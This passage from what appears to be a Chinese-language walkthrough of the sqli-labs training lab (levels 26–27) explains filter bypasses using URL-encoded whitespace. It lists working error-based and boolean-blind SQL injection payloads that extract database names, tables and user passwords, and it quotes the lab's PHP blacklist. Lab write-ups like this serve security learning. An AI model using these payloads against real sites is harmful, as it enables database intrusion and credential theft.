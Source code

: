 不仅过滤了or 与 and, 还过滤了单行注释--与#,以及多行注释 /**/,还过滤了空格，以及正反斜杠 /

注释符号bypass：

```
构造'来闭合后面的'
```

空格bypass：

```
%09 	TAB水平
%0a 	新建一行
%0c		新建一页
%0d		return功能
%0b		TAB(垂直)
%a0		空格
```

payload

```
#报错注入
爆数据库:
'||updatexml(1,concat('$',(database())),0)||'1'='1
爆表:
'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
爆字段:
'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
爆数据:
'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)limit%0b0,1)),0)||'1'='1

#布尔盲注
1'%26%26(ascii(mid((select(group_concat(schema_name))from(infoorrmation_schema.schemata)),1,1))>65)||'1'='
```

### less 26a GET - Blind Based - All your SPACES and COMMENTS belong to us

过滤了空格和注释的盲注

关闭了详细的报错，可进行盲注，闭合使用`')`

payload类似上题

### less 27 GET - Error Based- All your UNION & SELECT belong to us

过滤了union和select的

```php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
```